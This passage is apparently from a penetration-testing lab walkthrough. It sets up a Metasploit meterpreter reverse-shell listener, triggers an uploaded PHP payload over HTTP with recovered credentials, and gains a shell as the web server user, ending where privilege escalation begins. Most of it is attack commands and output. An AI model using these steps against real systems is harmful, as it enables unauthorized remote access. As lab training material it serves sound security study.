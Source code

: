 ```
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
226 Closing data connection.
ftp> bye
221 Goodbye.
kali@kali:~$
```

Let's set up our meterpreter listener and trigger the reverse shell by connecting on port 242 with the recovered credentials of `offsec:elite`.

```
kali@kali:~$ msfconsole
...
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.49.68
LHOST => 192.168.49.68
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.68:443 
```

Now, we'll trigger our reverse shell.

```
kali@kali:~$ curl --user offsec:elite 192.168.68.46:242/pwn.php

```

The listener indicates that we have received our shell.

```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.68:443 
[*] Sending stage (38288 bytes) to 192.168.68.46
[*] Meterpreter session 1 opened (192.168.49.68:443 -> 192.168.68.46:49167) at 2020-12-27 18:14:21 +0000

meterpreter > getuid
Server username: apache (0)
meterpreter >
```

## Escalation

### Local Enumeration

Next, we'll perform local enumeration in the hopes of escalating our privileges. We'll begin by enumerating the operating system version.
